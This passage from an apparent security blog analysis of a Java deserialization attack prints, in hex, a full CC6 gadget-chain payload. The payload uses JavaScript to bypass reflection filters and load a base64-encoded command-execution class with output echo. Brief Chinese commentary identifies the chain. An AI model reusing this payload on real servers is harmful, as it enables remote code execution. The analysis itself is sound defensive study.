64292c6e756c6c293b0a7d0a66756e6374696f6e206279706173735265666c656374696f6e46696c7465722829207b0a2020766172207265666c656374696f6e436c6173733b0a2020747279207b0a202020207265666c656374696f6e436c617373203d206a6176612e6c616e672e436c6173732e666f724e616d6528226a646b2e696e7465726e616c2e7265666c6563742e5265666c656374696f6e22293b0a20207d20636174636820286572726f7229207b0a202020207265666c656374696f6e436c617373203d206a6176612e6c616e672e436c6173732e666f724e616d65282273756e2e7265666c6563742e5265666c656374696f6e22293b0a20207d0a202076617220756e73616665203d20676574556e7361666528293b0a202076617220636c617373427566666572203d207265666c656374696f6e436c6173732e6765745265736f75726365417353747265616d28225265666c656374696f6e2e636c61737322292e72656164416c6c427974657328293b0a2020766172207265666c656374696f6e416e6f6e796d6f7573436c617373203d20756e736166652e646566696e65416e6f6e796d6f7573436c617373287265666c656374696f6e436c6173732c20636c6173734275666665722c206e756c6c293b0a2020766172206669656c6446696c7465724d61704669656c64203d207265666c656374696f6e416e6f6e796d6f7573436c6173732e6765744465636c617265644669656c6428226669656c6446696c7465724d617022293b0a2020766172206d6574686f6446696c7465724d61704669656c64203d207265666c656374696f6e416e6f6e796d6f7573436c6173732e6765744465636c617265644669656c6428226d6574686f6446696c7465724d617022293b0a2020696620286669656c6446696c7465724d61704669656c642e6765745479706528292e697341737369676e61626c6546726f6d286a6176612e6c616e672e436c6173732e666f724e616d6528226a6176612e7574696c2e486173684d617022292929207b0a20202020756e736166652e7075744f626a656374287265666c656374696f6e436c6173732c20756e736166652e7374617469634669656c644f6666736574286669656c6446696c7465724d61704669656c64292c206a6176612e6c616e672e436c6173732e666f724e616d6528226a6176612e7574696c2e486173684d617022292e676574436f6e7374727563746f7228292e6e6577496e7374616e63652829293b0a20207d0a2020696620286d6574686f6446696c7465724d61704669656c642e6765745479706528292e697341737369676e61626c6546726f6d286a6176612e6c616e672e436c6173732e666f724e616d6528226a6176612e7574696c2e486173684d617022292929207b0a20202020756e736166652e7075744f626a656374287265666c656374696f6e436c6173732c20756e736166652e7374617469634669656c644f6666736574286d6574686f6446696c7465724d61704669656c64292c206a6176612e6c616e672e436c6173732e666f724e616d6528226a6176612e7574696c2e486173684d617022292e676574436f6e7374727563746f7228292e6e6577496e7374616e63652829293b0a20207d0a202072656d6f7665436c6173734361636865286a6176612e6c616e672e436c6173732e666f724e616d6528226a6176612e6c616e672e436c6173732229293b0a7d0a66756e6374696f6e2073657441636365737369626c652861636365737369626c654f626a656374297b0a2020202076617220756e73616665203d20676574556e7361666528293b0a20202020766172206f766572726964654669656c64203d206a6176612e6c616e672e436c6173732e666f724e616d6528226a6176612e6c616e672e7265666c6563742e41636365737369626c654f626a65637422292e6765744465636c617265644669656c6428226f7665727269646522293b0a20202020766172206f6666736574203d20756e736166652e6f626a6563744669656c644f6666736574286f766572726964654669656c64293b0a20202020756e736166652e707574426f6f6c65616e2861636365737369626c654f626a6563742c206f66667365742c2074727565293b0a7d0a66756e6374696f6e20646566696e65436c617373286279746573297b0a202076617220636c7a203d206e756c6c3b0a20207661722076657273696f6e203d206a6176612e6c616e672e53797374656d2e67657450726f706572747928226a6176612e76657273696f6e22293b0a202076617220756e73616665203d20676574556e7361666528290a202076617220636c6173734c6f61646572203d206e6577206a6176612e6e65742e55524c436c6173734c6f61646572286a6176612e6c616e672e7265666c6563742e41727261792e6e6577496e7374616e6365286a6176612e6c616e672e436c6173732e666f724e616d6528226a6176612e6e65742e55524c22292c203029293b0a20207472797b0a202020206966202876657273696f6e2e73706c697428222e22295b305d203e3d20313129207b0a2020202020206279706173735265666c656374696f6e46696c74657228293b0a20202020646566696e65436c6173734d6574686f64203d206a6176612e6c616e672e436c6173732e666f724e616d6528226a6176612e6c616e672e436c6173734c6f6164657222292e6765744465636c617265644d6574686f642822646566696e65436c617373222c206a6176612e6c616e672e436c6173732e666f724e616d6528225b4222292c6a6176612e6c616e672e496e74656765722e545950452c206a6176612e6c616e672e496e74656765722e54595045293b0a2020202073657441636365737369626c6528646566696e65436c6173734d6574686f64293b0a202020202f2f20e7bb95e8bf872073657441636365737369626c65200a20202020636c7a203d20646566696e65436c6173734d6574686f642e696e766f6b6528636c6173734c6f616465722c2062797465732c20302c2062797465732e6c656e677468293b0a202020207d656c73657b0a2020202020207661722070726f74656374696f6e446f6d61696e203d206e6577206a6176612e73656375726974792e50726f74656374696f6e446f6d61696e286e6577206a6176612e73656375726974792e436f6465536f75726365286e756c6c2c206a6176612e6c616e672e7265666c6563742e41727261792e6e6577496e7374616e6365286a6176612e6c616e672e436c6173732e666f724e616d6528226a6176612e73656375726974792e636572742e436572746966696361746522292c203029292c206e756c6c2c20636c6173734c6f616465722c205b5d293b0a202020202020636c7a203d20756e736166652e646566696e65436c617373286e756c6c2c2062797465732c20302c2062797465732e6c656e6774682c20636c6173734c6f616465722c2070726f74656374696f6e446f6d61696e293b0a202020207d0a20207d6361746368286572726f72297b0a202020206572726f722e7072696e74537461636b547261636528293b0a20207d66696e616c6c797b0a2020202072657475726e20636c7a3b0a20207d0a7d0a66756e6374696f6e206261736536344465636f6465546f427974652873747229207b0a20207661722062743b0a20207472797b0a202020206274203d206a6176612e6c616e672e436c6173732e666f724e616d65282273756e2e6d6973632e4241534536344465636f64657222292e6e6577496e7374616e636528292e6465636f646542756666657228737472293b0a20207d63617463682865297b7d0a2020696620286274203d3d206e756c6c297b0a202020207472797b0a2020202020206274203d206a6176612e6c616e672e436c6173732e666f724e616d6528226a6176612e7574696c2e42617365363422292e6e6577496e7374616e636528292e6765744465636f64657228292e6465636f646528737472293b0a202020207d63617463682865297b7d0a20207d0a2020696620286274203d3d206e756c6c297b0a202020206274203d206a6176612e6c616e672e436c6173732e666f724e616d6528226f72672e6170616368652e636f6d6d6f6e732e636f6465632e62696e6172792e42617365363422292e6e6577496e7374616e636528292e6465636f646528737472290a20207d0a202072657475726e2062743b0a7d0a76617220636f64653d2279763636766741414144494177516f41435142524367425341464d4b414649415641674156516f4156674258434142594277425a4367414841466f484146734b41467741585167415867674158776741594167415951674159676f414277426a4341426b4341426c4277426d43674263414763494147674b4144304161516f41435142714341427243414273434142744341427543674154414738494148414b4148454163676f414577427a43674154414851494148554b41424d4164676741647767416541634165516f414a5142524367416c41486f494148734b414355416641674166516741666767416677674167416f41675143434367434241494d484149514b4149554168676f414d414348434143494367417741496b4b4144414169676f414d41434c436743464149774b414955416a5163416a676f414f5142384341435043674139414a4148414a454241415938615735706444344241414d6f4b565942414152446232526c4151415054476c755a55353162574a6c636c5268596d786c4151414c614746755a464a6c6358566c633351424141704665474e6c634852706232357a415141455a58686c597745414a69684d616d4632595339735957356e4c314e30636d6c755a7a737054477068646d4576624746755a79395464484a70626d63374151414e553352685932744e5958425559574a735a5163415a6763416b6763416b77634168416341655163416a6763416c4145414344786a62476c756158512b4151414b55323931636d4e6c526d6c735a51454143464e464d53357159585a684441412b41443848414a554d414a59416c7777416d41435a4151413862334a6e4c6e4e77636d6c755a325a795957316c64323979617935335a5749755932397564475634644335795a5846315a584e304c6c4a6c6358566c63335244623235305a586830534739735a4756794277436144414362414a77424142526e5a5852535a5846315a584e3051585230636d6c696458526c6377454144327068646d4576624746755a7939446247467a637777416e51436541514151616d4632595339735957356e4c303969616d566a644163416e7777416f4143684151424162334a6e4c6e4e77636d6c755a325a795957316c64323979617935335a5749755932397564475634644335795a5846315a584e304c6c4e6c636e5a735a5852535a5846315a584e3051585230636d6c696458526c637745414332646c64464a6c63334276626e4e6c4151414b5a325630556d56786457567a6441454148577068646d46344c6e4e6c636e5a735a58517555325679646d786c64464a6c63334276626e4e6c4151414a5a32563056334a706447567944414369414a34424143567159585a686543357a5a584a32624756304c6d6830644841755348523063464e6c636e5a735a5852535a5846315a584e304151414a5a325630534756685a47567941514151616d4632595339735957356e4c314e30636d6c755a7777416f77436b415141445932316b444142454145554d414b5541706745414233427961573530624734424141566d6248567a6141454142574e7362334e6c415141414441436e414b674241416476637935755957316c42774370444143714145554d414b734172417741725143734151414464326c7544414375414b3842414152776157356e415141434c5734424142647159585a684c327868626d6376553352796157356e516e56706247526c636777417341437841514146494331754944514d414c4941724145414169396a41514146494331304944514241414a7a614145414169316a4277437a44414330414c554d414551417467454145577068646d4576645852706243395459324675626d56794277435344414333414c674d4144344175514541416c786844414336414c734d414c774176517741766743734441432f414c674d414d41415077454145327068646d4576624746755a79394665474e6c63485270623234424142426a623231745957356b494735766443427564577873444142434144384241414e54525445424142467159585a684c327868626d637655484a765932567a637745414531744d616d4632595339735957356e4c314e30636d6c755a7a734241424e7159585a684c327868626d63765647687962336468596d786c41514151616d4632595339735957356e4c31526f636d56685a41454144574e31636e4a6c626e525561484a6c595751424142516f4b55787159585a684c327868626d6376564768795a57466b4f7745414657646c64454e76626e526c654852446247467a633078765957526c636745414753677054477068646d4576624746755a7939446247467a633078765957526c636a73424142567159585a684c327868626d63765132786863334e4d6232466b5a58494241416c736232466b5132786863334d424143556f54477068646d4576624746755a79395464484a70626d63374b55787159585a684c327868626d63765132786863334d374151414a5a325630545756306147396b415142414b45787159585a684c327868626d6376553352796157356e4f31744d616d4632595339735957356e4c304e7359584e7a4f796c4d616d4632595339735957356e4c334a6c5a6d786c59335176545756306147396b4f77454147477068646d4576624746755a7939795a575a735a574e304c30316c644768765a414541426d6c75646d39725a5145414f53684d616d4632595339735957356e4c303969616d566a6444746254477068646d4576624746755a793950596d706c593351374b55787159585a684c327868626d637654324a715a574e304f7745414557646c6445526c59327868636d566b545756306147396b4151414e6332563051574e6a5a584e7a61574a735a514541424368614b5659424141686e5a5852446247467a637745414579677054477068646d4576624746755a7939446247467a637a734241415a6c6358566862484d424142556f54477068646d4576624746755a793950596d706c593351374b566f424142427159585a684c327868626d637655336c7a644756744151414c5a32563055484a766347567964486b424141743062307876643256795132467a5a5145414643677054477068646d4576624746755a79395464484a70626d63374151414564484a706251454143474e76626e52686157357a415141624b45787159585a684c327868626d637651326868636c4e6c6358566c626d4e6c4f796c6141514147595842775a57356b415141744b45787159585a684c327868626d6376553352796157356e4f796c4d616d4632595339735957356e4c314e30636d6c755a304a316157786b5a584937415141496447395464484a70626d63424142467159585a684c327868626d6376556e567564476c745a514541436d646c64464a31626e5270625755424142556f4b55787159585a684c327868626d6376556e567564476c745a5473424143676f5730787159585a684c327868626d6376553352796157356e4f796c4d616d4632595339735957356e4c31427962324e6c63334d374151414f5a325630535735776458525464484a6c595730424142636f4b55787159585a684c326c764c306c7563485630553352795a5746744f7745414743684d616d4632595339706279394a626e423164464e30636d566862547370566745414448567a5a55526c62476c746158526c636745414a79684d616d4632595339735957356e4c314e30636d6c755a7a737054477068646d4576645852706243395459324675626d56794f774541423268686330356c6548514241414d6f4b566f42414152755a5868304151414f5a32563052584a7962334a5464484a6c595730424141646b5a584e30636d3935414345415051414a4141414141414145414145415067412f4141454151414141414230414151414241414141425371334141477841414141415142424141414142674142414141414541414a41454941507741434145414141414679414159414377414141524b3441414b3241414d53424c594142557371456759447651414874674149544373424137304143625941436b323441414b3241414d53433759414255737145677744765141487467414954436f5344514f39414165324141684f4b7977447651414a7467414b4f6751744c414f3941416d3241416f3642626741417259414178494f746741464567384476514148746741514f67613441414b3241414d534562594142524953424c304142316b4445684e54746741514f67635a427753324142515a426753324142515a42686b454137304143625941436a6f494751635a4251533941416c5a417849565537594143734141457a6f4a47516d344142593643686b4974674158456867457651414857514d5345314f324142415a4341533941416c5a41786b4b55375941436c635a434c59414678495a413730414237594145426b494137304143625941436c635a434c594146784961413730414237594145426b494137304143625941436c657841414141415142424141414154674154414141414577414d41425141467741564143454146674174414263414f41415941454d414751424f41426f4157514162414738414841434b414230416b414165414a59414877436a4143414175414168414c38414967446841434d412b51416b415245414a514244414141414241414241446b41435142454145554141514241414141436e41414541416741414145324b7359424d6849624b725941484a6f424b5249647541416574674166544371324143424c41553042546973534962594149706b4150796f534937594149706b4149436f534a4c594149706f41463773414a566d33414359717467416e456969324143653241436c4c4272304145316b4445685654575151534b6c4e5a425370545471634150436f534937594149706b4149436f534a4c594149706f41463773414a566d33414359717467416e456975324143653241436c4c4272304145316b4445697854575151534c564e5a42537054547267414c6932324143394e757741775753793241444733414449534d3759414e446f45475153324144575a4141735a424c59414e716341425249624f6757374144425a4c4c59414e3763414d68497a746741304f6753374143565a7477416d475157324143635a424c59414e5a6b4143786b457467413270774146456875324143653241436b3642526b464f675973786741484c4c59414f426b4773446f454751533241446f3642537a474141637374674134475157774f676373786741484c4c59414f426b487678493773414145414a30424277455341446b416e5145484153594141414553415273424a674141415359424b41456d41414141416742424141414165674165414141414b41414e41436b4146674171414273414b7741644143774148774174414367414c6741364143384154674178414751414d7742324144514169674132414a30414f51436c41446f4174774137414d734150414464414430424177412b415163415167454c41454d424477412b41524941507745554145414247774243415238415177456a414541424a6742434153774151774577414555424d77424841455941414143304141372b41453448414563484145674841456b564a524c3841436b4841457042427742482f7741764141594841456348414563484145674841456b4841456f484145634141516341532f3841415141474277424842774248427742494277424a4277424b4277424841414948414573484145663841424d484145662f4141494142416341527763415277634153416341535141424277424d2f5141514277424d427742482f7741434141514841456348414563484145674841456b414151634154663841435141494277424842774248427742494277424a414141414277424e4141442f414149414151634152774141414167415467412f4141454151414141414430414151414241414141434c6741504b6341424575784141454141414144414159414f514143414545414141414f41414d414141414d41414d4144514148414134415267414141416341416b59484145774141414541547741414141494155413d3d223b0a636c7a203d20646566696e65436c617373286261736536344465636f6465546f4279746528636f646529293b0a636c7a2e6e6577496e7374616e636528293b7400046576616c7571007e001b0000000171007e0023737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000077080000001000000000787878;"}}
```

将 hex 数据保存使用 ser-dump 后得到以下结果 (太长不贴了)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226151031-20b64904-d476-1.png)

大致浏览下其实可以发现他用的类方法都是什么 TiedMapEntry Transformer ConstantTransformer InvokerTransformer

所以可以猜测的没问题就是通过 CC6 去加载 JS 引擎加载恶意类，流程图如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226151315-82b928e2-d476-1.png)

其恶意类为

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226151251-74662830-d476-1.png)

加载的恶意类就是个可以回显的命令执行，所以分析结束，emmm 其实怎么去加载怎么去写这些马，可能得去把内存马的坑给填上才行了 (这里顶多算个回显马)

​
